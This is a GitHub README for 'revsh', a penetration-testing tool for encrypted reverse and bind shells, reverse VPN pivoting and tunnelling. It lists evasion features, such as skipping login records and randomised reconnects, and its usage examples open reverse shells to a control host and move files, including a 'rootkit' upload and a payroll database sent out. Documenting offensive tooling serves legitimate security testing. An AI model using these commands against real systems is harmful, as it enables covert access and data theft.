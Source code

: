 # revsh #

_revsh_ is a tool for establishing [reverse shells](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support, reverse [VPNs](https://en.wikipedia.org/wiki/Virtual_private_network) for [advanced pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting), as well as arbitrary data tunneling.

## News ##

* __2018-08-09__: New release. Mosly bug / stability fixes and better documentation on the build process with OpenSSL 1.1.0. See the _Installation_ section below for the updated build instructions.

## Overview ##

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "reverse VPN"?**

_revsh_ is capable of attaching a virtual ethernet card (tun/tap) to both ends of its crypto tunnel. These cards can then be used to forward raw IP packets or ethernet frames. When combined with an Iptables NAT rule, or bridging a real ethernet card, this allows for the operator to receive a fully routable IP address on the target machines network. This, essentially, is a full VPN that has performed a connect-back call to the operator to circumvent in-bound packet filtering and grant the operator full network access. (See ["Documentation/REVERSE_VPN.md"](https://github.com/emptymonkey/revsh/blob/master/Documentation/REVERSE_VPN.md) for more information.)

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. vi)
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.
 * Proxy support: point-to-point, SOCKS 4, SOCKS 4a, and SOCKS 5. Proxys are available in both directions for complete flexibility.
 * TUN / TAP support for forwarding raw IP packets / Ethernet frames.
 * Escape sequence commands to kill non-responsive nodes, or print connection statistics.


_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	Control:	revsh -c [CONTROL_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	Target:		revsh     [TARGET_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	
		ADDRESS		The address of the control listener.		(Default is "0.0.0.0".)
		PORT		The port of the control listener.		(Default is "2200".)
	
	CONTROL_OPTIONS:
		-c		Run in "command and control" mode.		(Default is target mode.)
		-a		Enable Anonymous Diffie-Hellman mode.		(Default is Ephemeral Diffie-Hellman.)
		-d KEYS_DIR	Reference the keys in an alternate directory.	(Default is "~/.revsh/keys/".)
		-f RC_FILE	Reference an alternate rc file.			(Default is "~/.revsh/rc".)
		-s SHELL	Invoke SHELL as the remote shell.		(Default is "/bin/bash".)
		-F LOG_FILE	Log general use and errors to LOG_FILE.		(No default set.)
	
	TARGET_OPTIONS:
		-t SEC		Set the connection timeout to SEC seconds.	(Default is "3600".)
		-r SEC1,SEC2	Set the retry time to be SEC1 seconds, or	(Default is "600,1200".)
				to be random in the range from SEC1 to SEC2.
	
	MUTUAL_OPTIONS:
		-k		Run in keep-alive mode.
				Node will neither exit normally, nor timeout.
		-L [LHOST:]LPORT:RHOST:RPORT
				Static socket forwarding with a local listener
				at LHOST:LPORT forwarding to RHOST:RPORT.
		-R [RHOST:]RPORT:LHOST:LPORT
				Static socket forwarding with a remote listener
				at RHOST:RPORT forwarding to LHOST:LPORT.
		-D [LHOST:]LPORT
				Dynamic socket forwarding with a local listener
				at LHOST:LPORT.					(Socks 4, 4a, and 5. TCP connect only.)
		-B [RHOST:]RPORT
				Dynamic socket forwarding with a remote
				listener at LHOST:LPORT.			(Socks 4, 4a, and 5. TCP connect only.)
		-x		Disable automatic setup of proxies.		(Defaults: Proxy D2280 and tun/tap devices.)
		-b		Start in bind shell mode.			(Default is reverse shell mode.)
				The -b flag must be invoked on both ends.
		-n		Non-interactive netcat style data broker.	(Default is interactive w/remote tty.)
				No tty. Useful for copying files.
		-v		Verbose. -vv and -vvv increase verbosity.
		-V		Print the program and protocol versions.
		-h		Print this help.
		-e		Print out some usage examples.

## Installation ##

First, you will need to build OpenSSL from source. (See __NOTE__ below.)

	git clone https://github.com/openssl/openssl.git
	cd openssl/
	./config no-shared -static	# These options are needed to build static applications against OpenSSL.
	make && make test	# We skip "make install" so we don't conflict with your systems default OpenSSL. We will build _revsh_ against the OpenSSL we just compiled in this tree.
	cd ..

Now build revsh.

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	vi Makefile        # Check that the selected build environment is the one you want. (It probably already is by default.)
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	vi ~/.revsh/rc     # Add your favorite startup commands to really customize the feel of your remote shell.
	revsh -h

__NOTE:__ With the release of OpenSSL 1.1.0, OpenSSL needs to be built from source for use in a statically linked binary. Building a statically linked binary against the OpenSSL libraries that ship with most Linux distros (including Kali) will *not* work. (If it builds at all, it will SEGFAULT.)

## Examples ##

Control host example IP: 192.168.0.42
<br>
Target host example IP:  192.168.0.66

	Interactive example on default port '2200':
		control:	revsh -c
		target:		revsh 192.168.0.42
	
	Interactive example on non-standard port '443':
		control:	revsh -c 192.168.0.42:443
		target:		revsh 192.168.0.42:443
	
	Bindshell example:
		target:		revsh -b
		control:	revsh -c -b 192.168.0.66
	
	Non-interactive file upload example:
		control:	cat ~/bin/rootkit | revsh -c -n
		target:		revsh 192.168.0.42 > ./totally_not_a_rootkit
	
	Non-interactive file download example:
		control:	revsh -c -n >payroll_db.tar
		target:		cat payroll_db.tar | revsh 192.168.0.42
	
	Non-interactive file download example across existing tunnel:
		control:	revsh -c -n 127.0.0.1:2291 >payroll_db.tar
		target:		cat payroll_db.tar | revsh 127.0.0.1:2290

